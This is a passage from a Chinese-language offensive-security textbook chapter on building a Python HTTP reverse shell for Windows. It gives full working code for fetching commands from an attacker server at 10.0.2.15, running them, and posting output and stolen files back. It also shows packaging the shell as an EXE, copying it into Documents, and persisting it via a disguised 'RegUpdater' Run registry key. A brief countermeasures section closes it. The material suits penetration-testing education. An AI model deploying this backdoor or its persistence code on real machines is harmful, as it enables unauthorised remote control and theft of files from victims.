如果我们收到带有`/store`的`POST`请求，并且内容类型为`multipart/form-data`，则意味着我们将从目标机器获取一个文件，而不是通常的命令输出。然后，我们需要将接收到的文件、`headers`和`REQUEST_METHOD`传递给`FieldStorage`类。`FieldStorage`的返回值可以像 Python 字典一样进行索引，其中包含一个键和一个对应的值。例如，如果我们创建一个名为`D`的 Python 字典，键为`K`，值为`v`，如下所示：


要获取值`v`，我们只需要相应的键`K`。在客户端，当我们提交文件时，我们附加了一个名为`files ='file'`的标签或键。因此，我们将在服务器端使用这个标签或键来接收该文件。`FieldStorage`将抓取键及其值并将它们存储在名为`fs`的对象中。但我们只关心`file`的值，这是包含我们发送的实际文件的标签或键。一旦我们获取到该值，就会将其写入一个名为`1.txt`的占位符中。最后，我们退出该函数，以防止与正在进行的文件传输 POST 混淆。

要启动文件传输，执行以下步骤：

1.  按照常规方式在两台机器上运行代码（运行 | 运行模块）

1.  一旦我们获得`Shell>`，继续执行`dir`命令进行目录搜索，并尝试抓取一个文件，例如`putty.exe`，通过运行`grab`命令，`grab*putty.exe`

1.  一旦我们在服务器端获得文件，将占位符重命名为`putty.exe`并验证我们是否成功运行了`putty.exe`且没有文件损坏。可以通过在命令提示符中执行以下命令来验证：

```
wine putty.exe
```

1.  返回到 shell 并获取另一个文件，比如`password.txt`，只是为了测试。

1.  检查重命名占位符后是否可以读取其内容

1.  尝试抓取一个不存在的文件；你会遇到错误，因为它根本不存在。

# 导出为 EXE

在本节中，类似于我们在 TCP 套接字中所做的那样，我们将导出并测试我们的 HTTP 反向 Shell 为 EXE，并在此之后进行测试。

在这里，您还需要在桌面上创建一个名为`Toexe`的文件夹。如前所述，`py2exe`二进制文件、`py2exe`设置文件和`HTTP_Client.py`脚本文件应该位于该文件夹中。

设置文件`setup.py`将如下所示：

```
# py2exe download link: http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/

# HTTP Exporting to EXE Client Setup

from distutils.core import setup
import py2exe , sys, os

sys.argv.append("py2exe")
setup(
    options = {'py2exe': {'bundle_files': 1}},

    windows = [{'script': "HTTP_Client.py"}], 
    zipfile = None,

)
```

执行以下步骤以启动导出：

1.  从编辑`py2exe`设置文件开始，将`Client.py`更改为`HTTP_Client.py`，这是我们在目标端脚本的名称。

1.  执行`setup.py`脚本。

1.  完成后，我们将进入`dist`文件夹，并将`HTTP_Client.py`复制到桌面。

1.  确保服务器已经在运行。一旦我们获得`Shell>`，使用`dir`命令进入目录。

1.  尝试抓取一个文件，比如`grab*password.txt`，就像我们在前面的章节中做的那样。

1.  在服务器端成功获取文件后，尝试其他简单命令，如`cd`和`whoami`。

1.  尝试输入一个错误命令，检查是否能得到正确的错误信息。

1.  最后，通过执行`terminate`命令从 Shell 中终止会话。

1.  你可以检查一下是否有`HTTP_Client.exe`进程在我们的 Windows 机器上；一旦我们执行`terminate`，该进程将从列表中消失，确认其终止。

# 持久性

保持访问是渗透测试中一个非常重要的阶段。假设我们的目标已经运行了我们的 Shell，所有事情都进行得很顺利。然后突然，目标机器关闭了电脑。这样的话，我们就会失去所有的访问权限。所以，这里关键的一点是，我们需要在目标机器重新启动或关机后能够继续生存下去。在继续之前，一些客户禁止对目标机器进行任何修改，因此在进一步操作之前，必须确保与你的客户设定好正确的期望。

如果允许进行修改，那么我们有三个执行阶段，如下所示：

1.  首先，我们会将自己复制到另一个位置，这样做是为了防止目标删除 Shell 文件；所以这份复制就是备份。在这个阶段，应该识别两个参数。第一个是*源路径*，即 Shell 文件所在的目录，换句话说，就是当前工作目录。第二个参数是*目标路径*；在这里是`Documents`文件夹。

由于每台 PC 的用户名不同，我们需要弄清楚目标机器上以前的用户名是什么。

1.  在第二阶段，将 Shell 复制到`Documents`文件夹或`Documents`目录后，我们需要添加一个注册表项，并将其指向`Documents`文件夹中的复制文件。请记住，第一阶段和第二阶段仅应在首次将后门安装到目标机器后执行一次。

1.  第三阶段是启动我们的反向 Shell，而不重复之前的两个阶段。

由于我们不知道当前的工作目录或用户配置文件，因此我们必须首先找出这些信息。这将在系统侦察阶段完成。

现在，为了详细了解我们持久性 Shell 的工作流程，请看看这个简单的流程图：



从逻辑上讲，我们将从系统侦察阶段开始，这一阶段的输出将包括两项内容。首先，我们将发现我们的 shell 当前的工作目录，并找出用户配置文件。第二个输出应该是目标路径。接下来，我们需要判断是否第一次在目标机器上运行。你可能会问，我们怎么做到这一点呢？答案要感谢 OS 库，它简化了我们的任务。为了实现这一点，我们只需检查脚本是否存在于目标路径中。如果存在，那么这就不是我们第一次到达目标机器，因为我们已经完成了前两个阶段。所以，我们将跳过第一和第二阶段，直接启动 shell。

然而，如果这是我们第一次在目标机器上运行，我们将把自身复制到目标路径，这就是我们在第一阶段所做的。然后，我们将添加一个新的注册表键，指向这个位置，这就是这里的第二阶段。最后，我们需要确保我们能够重新连接到 Kali 服务器。在接下来的两个部分中，你将看到所有步骤的实际操作，以更清楚地理解这个概念。为了便于理解，我们将把编码部分分成两部分。在第一部分，我们将使 `putty.exe` 持久化，在第二部分，我们将完成并将持久化脚本与之前的 HTTP 反向 shell 集成。

# 使 `putty.exe` 持久化

在本节中，我们将使 `putty.exe` 程序持久化。你可以在 Google 上搜索并免费下载 PuTTY 软件。正如我们之前所解释的，我们的脚本将从执行系统侦察开始，这一阶段的输出将是当前的工作目录或用户配置文件的目标位置。

现在，让我们将这个阶段翻译成一段代码，如下所示——这些行将为我们执行侦察阶段：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Persistence

import os # needed for getting working directory
import shutil # needed for file copying
import subprocess # needed for getting user profile
import _winreg as wreg # needed for editing registry DB

# Reconn Phase

path = os.getcwd().strip('/n') #Get current working directory where the backdoor gets executed, we use the output to build our source path

Null,userprof = subprocess.check_output('set USERPROFILE', shell=True).split('=')
#Get USERP ROFILE which contains the username of the profile and store it in userprof variable , we use the output to build our destination path
#Other way to discover the userprofile is via os.getenv('userprofile') , both will give the same result 

destination = userprof.strip('\n\r') + '\\Documents\\' +'putty.exe'
#build the destination path where we copy your backdoor - in our example we choosed C:\Users\<UserName>\Documents\

# First and Second Phases

if not os.path.exists(destination): # this if statement will be False next time we run the script because our putty.exe will be already copied in destination 

    #First time our backdoor gets executed
    #Copy our Backdoor to C:\Users\<UserName>\Documents\
    shutil.copyfile(path+'\putty.exe', destination)

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run",0,
                         wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ,destination)
    key.Close()
    #create a new registry string called RegUpdater pointing to our
    #new backdoor path (destination)

#If the script worked fine, out putty.exe should be copied to C:\Users\<UserName>\Documents\ and a new registry key called 'RegUpdater' should be created
#and pointing to C:\Users\<UserName>\Documents\putty.exe 
```

`os.getcwd()` 函数将为我们获取当前工作目录。

现在，在 `Desktop` 上，我们创建一个名为 `Persistence` 的文件夹，里面放置我们为本节下载的 `putty.exe` 和之前提到的 `Presistance.py` 脚本。

让我们使用 Python 交互式 shell 或 Python 交互式窗口查看 `os.getcwd()` 这一行的输出：

1.  打开命令提示符并导航到当前工作目录，即 Persistence。启动 Python 交互模式。

1.  执行 `import os` 和 `print os.getcwd()`。

1.  我们在这里获取脚本的当前工作目录。这个结果将存储在路径变量中：



回顾 `Persistence.py` 脚本，我们在子进程中调用 `set USERPROFILE`，并使用这一步骤获取 `USERPROFILE` 名称。根据这个信息，我们可以构建目标路径，即 `Documents` 文件夹。

在命令提示符中输入上面的 `set USERPROFILE` 变量。输出可能会有些杂乱，因此我们将分割输出，并将第二部分存储在名为 `userprof` 的变量中。分割标准或参数是基于 `=` 符号。根据这个标准，我们将把输出分成两部分。第二部分将存储在一个名为 `userprof` 的变量中。一旦我们知道了这些信息，就可以构建我们的目标路径，也就是 `Documents` 文件夹。

我们将 `Documents` 和 `putty.exe` 字符串附加在一起，得到目标的绝对路径。请注意，这里的 `<UserName>` 不再是未知的了。此时，我们已经成功完成了侦查阶段。接下来，检查是否是第一次进入这台计算机，我们将通过一个操作系统功能 `path.exists()` 来实现这个技巧。如果 `putty.exe` 不存在于 `Documents` 文件夹中，则意味着我们第一次在这里运行脚本，因为下次 PuTTY 会被复制，`if` 语句 `if not os.path.exists(destination):` 的结果将为 `false`。由于这是我们的第一次，我们将复制 `putty.exe`，它是源变量。

接下来，我们将在用户空间中添加一个注册表项。请注意，我们故意使用了用户空间，而不是机器空间。通过使用用户空间，即使没有管理员权限，我们的脚本也能正常工作。我们将注册表键字符串命名为 `RegUpdater`（你可以稍后改成任何你想要的名称），并将其值指向我们的最终目标。在这里，我们没有 shell，只是 `putty.exe`。因此，这部分内容将在下一节中讨论。在运行脚本之前，让我们先验证一下注册表数据库中是否与我们的脚本相关的内容。通过在 Windows 开始菜单搜索 `regedit` 打开注册表编辑器，路径将是 `Computer\HKEY_CURRENT_USER|Software\Microsoft\Windows\CurrentVersion\Run`，如下图所示，目前除了 `(Default)` 条目外，里面没有任何内容：



现在，导航到 `Documents` 文件夹，确保没有任何事情需要做。最后，确保 PuTTY 软件本身可以正常运行，直接打开它。

我们现在就运行脚本。如果没有遇到异常或错误，我们将验证注册表数据库。你会注意到，我们的注册表键指向了 `Documents` 目录，而且 PuTTY 也被复制到了 `Documents` 目录：



现在，关闭所有内容并重启 VirtualBox。启动虚拟机后，如果一切正常，我们应该会看到 `putty.exe` 已经执行，并且 PuTTY 窗口应该会弹出。

在下一节中，我们将使我们的 HTTP 反向 shell 更加智能，并在内置函数中执行所有这些步骤。

# 创建持久化的 HTTP 反向 shell

在本节中，我们将制作之前编码的 HTTP 反向 shell。然后，我们将其导出为 EXE 文件，进行尝试并测试。现在，几乎所有的难点工作已经完成，在这一点上你应该已经熟悉代码的每个部分。

快速回顾一下，我们在这里做的事情是将 `putty.exe` 改为 `Persistence.exe`，这将是我们的 EXE 文件名。目标部分将保持不变，也就是 `Documents` 文件夹。最后，我们像往常一样启动 HTTP 反向 shell。

这里的安装文件将如下所示：

```
# py2exe download link: http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/

# Persistence Setup

from distutils.core import setup
import py2exe , sys, os

sys.argv.append("py2exe")
setup(
    options = {'py2exe': {'bundle_files': 1}},

    windows = [{'script': "Persistence.py"}], 
    zipfile = None,

)
```

让我们尝试将这段代码导出为 EXE，文件名将是 `Persistence`。完成后，它应该位于 `dist` 文件夹中。现在，我们将在非管理员账户上测试它，以展示我们的 shell 不需要管理员权限：

1.  从控制面板创建一个标准用户。

1.  创建一个快速密码。

1.  将持久性文件复制到 `C:` 目录；这样我们在登录该非标准用户账户后，就可以从那里获取该文件。

1.  注销并使用新的标准账户登录。

1.  找到 `Persistence` 文件并将其复制到桌面。

1.  和往常一样，在运行 shell 之前，验证注册表数据库中没有任何内容。这同样适用于 `Documents` 文件夹。

1.  在 Kali 端设置我们的监听器，也就是运行我们的 HTTP 服务器。

1.  完成后，注意到注册表项已成功添加，并且最终我们的文件能够成功识别用户名并将自己复制到 `Documents` 文件夹。

1.  让我们验证一下我们的 shell 是否按预期工作。在 Windows 机器上启动任务管理器。

1.  我们从在服务器端运行 `ping 10.0.2.15` 开始，这个地址是 Kali 机器的 IP。

1.  使用 `arp -a` 检查 Windows 端的 `arp` 表，并确保这些命令正常工作。

1.  成功终止进程后，我们将删除 `Persistence.exe` 文件，假设目标已经删除了 shell 文件并重新启动了客户端机器。

1.  再次登录，如果你在 Kali 机器上看到 shell，我们的任务就成功了。

# 调整连接尝试

在之前的所有部分中，我们假设攻击者和目标机器的时间是同步的。这意味着我们的服务器一直处于启动和监听状态。现在，问题是：如果攻击者机器因某种原因离线或连接没有正确建立，会发生什么？那么，客户端上的后门将崩溃，并同时弹出一个错误信息框并生成一个文本文件，指示异常错误。

当前，我们的 Kali 机器没有在任何端口上监听。所以，如果攻击者发起 TCP SYN 请求与我们建立连接，由于端口关闭，我们的 Kali 机器将以 TCP RST 响应。现在，让我们快速看一下数据包级别：

1.  通过执行 `sudo wireshark` 在攻击者机器上启用 Wireshark，你可以看到我们的脚本没有在那里运行。

1.  启动新的实时捕获

1.  将过滤器设置为 TCP

1.  在 Windows 机器上登录

1.  由于我们没有监听端口`80`，我们正在回复 TCP RST，正如以下截图所示：


同时，在目标端，我们的脚本会崩溃并抛出异常或日志信息。进入日志文件，你会看到它显示连接已中止，因为目标机器主动拒绝了连接，如下图所示：


使用`admin`帐户登录，我们已安装了 Python 编译器。因此，我们将通过创建一个带有异常处理程序的无限循环来解决此问题，如下所示：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Tunning

import os
import shutil
import subprocess
import _winreg as wreg

import requests 
import time

...

#Last phase is to start a reverse connection back to our kali machine
import random
def connect():
    while True: 

        req = requests.get('http://10.0.2.15')
        command = req.text

        if 'terminate' in command:
            return 1 

        elif 'grab' in command:

            grab,path=command.split('*')
            if os.path.exists(path):
                url = 'http://10.0.2.15/store'
                files = {'file': open(path, 'rb')}
                r = requests.post(url, files=files)
            else:
                post_response = requests.post(url='http://10.0.2.15', data=
                                          '[-] Not able to find the file !' )

        else:
            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() )
            post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() )
    time.sleep(3)

while True:
    try:
        if connect()==1:
                break
    except:
        sleep_for = random.randrange(1,10)
        time.sleep( sleep_for )
        #time.sleep( sleep_for ) #sleep for a random time between 1-10 minutes
        pass
```

如你所见，一个名为`connect()`的新函数已添加到脚本中。因此，使用异常处理器，无论是什么原因，如果在初始化连接时遇到异常，我们将暂停 1 到 10 秒之间的随机时间，然后再尝试连接。在实际场景中，你需要更有耐心，将时间延长至 1 到 10 分钟。最后，我们传递异常，而不是抛出异常。现在，问题是：如何终止进程，因为我们有两个无限循环？由于单独的`break`命令无法完成任务，解决方法是，如果我们终止，那么整个函数将被中断，并保留一个值`1`。如果连接函数保留了`1`的值，那么我们将中断第二个循环，这样就能最终终止进程。

现在，让我们快速尝试并测试这个修改：

1.  如前所述，将脚本导出为 EXE

1.  确保`Documents`文件夹和注册表项为空

1.  双击`dist`文件夹中的`Persistence.exe`并运行脚本

当我们在这里运行脚本时，注意到目标一直在尝试连接我们，直到我们运行服务器，连接尝试的时间会在 1 到 10 秒之间，如下图所示：


现在，一旦我们在服务器端启动监听器，完成三次握手，并从目标接收到`GET`请求，如下图所示：


检查注册表项是否存在，脚本是否已复制到`Documents`文件夹。最后一个要测试的事情是终止进程是否有效。Ping `10.0.2.15`并执行`terminate`。你会看到`Persistence.exe`已从 Windows 任务管理器中消失。

# 防止 Shell 崩溃的小贴士

如我们之前所解释的，我们通过创建一个子进程并将命令传递给该子进程来创建了一个 shell。现在，关键是有些命令无法通过这种技术正常工作，例如 `cls` 和 `clear` 命令，这两个命令在 shell 中都无法执行。举个例子，假设我们能够将 shell 获取到客户端 PC，然后我们发现有某种 Telnet 或 FTP 服务器连接在同一内部网络上。不幸的是，我们无法通过我们的 shell 使用操作系统内置的 Telnet 客户端，这是因为一旦我们这样做，服务器会提示我们输入用户名和密码；这就是所谓的交互式方法，而 shell 无法处理这类交互。

一种解决方案是使用一个特殊的 Python 库，叫做 **Pexpect**。Pexpect 允许您的脚本像人类输入命令一样与应用程序进行交互。最后但同样重要的是，在将命令发送给目标之前，务必先在 VirtualBox 中本地测试该命令。

这里有几个要提到的要点。首先，我们遇到了明文传输的问题。现在，我们所有的流量和文件传输都是明文传输。这意味着任何 IPS 或网络分析器都能轻松捕捉到我们的命令，并且可能会阻止该连接，或至少会向系统或 SOC 团队发出警告。现在，在第四章《*抓住我吧！*》中，我们将通过构建自定义的 XOR 加密来解决这个问题，确保攻击者与目标机器之间的所有流量都进行加密。

第二个要点是：如果黑客的 IP 地址发生动态变化怎么办？假设黑客位于 ADSL 或代理后面，每次连接到互联网时，IP 地址都会发生变化。记住，我们已经将目标配置为连接到固定的 IP 地址，最终连接将会失败，因为该 IP 地址将不再有效。

# 对策

在本节中，我们将看到如何保护自己免受本章中解释的攻击。现在，如果我们思考一下：攻击者如何能够首先接触到我们的内部主机呢？嗯，我们依赖社会工程攻击以及客户端攻击来实现这一点。这里的主要防御关键是从保护人员开始，因为他们是整个系统中最薄弱的环节。因此，你必须开始定期保护你的员工，并加强管理执行。其次，你不应该依赖于杀毒软件、沙箱或 VMware，因为现代恶意软件具有内置机制来保护自己免受检测。此外，你应该远离任何可疑软件，尤其是破解文件。在安装任何软件之前，如果是合法软件，使用 MD5 或 sha1 算法验证文件完整性。如果可能的话，使用**数据泄漏防护**（**DLP**）来检测终端或网络传输路径上的任何文件传输。此外，作为最佳实践，你可以安装称为**基于主机的入侵检测系统**（**HIDS**）来收集操作系统日志，并注意操作系统日志上发生的任何修改。如果可能的话，创建一个白名单，并限制哪些进程被允许在操作系统上运行。在安全意识培训中，始终告知非技术人员向网络安全团队、安全操作员或分析员报告任何钓鱼邮件或可疑文件。

# 总结

在本章中，我们首先准备了攻击者和目标机器，然后开始学习和编写 TCP 和 HTTP 反向 shell。对于每个反向 shell，我们研究了数据泄露和将 Python 脚本导出为`.exe`，这使得攻击独立于 Python 编译器。我们学会了如何使连接持久化。我们还研究了调整连接尝试和防范我们学到的攻击的对策。

在下一章中，我们将涵盖 DDNS、交互式 Twitter、对策、复制 Metasploit 屏幕捕获、目标目录导航以及集成低级端口扫描器。
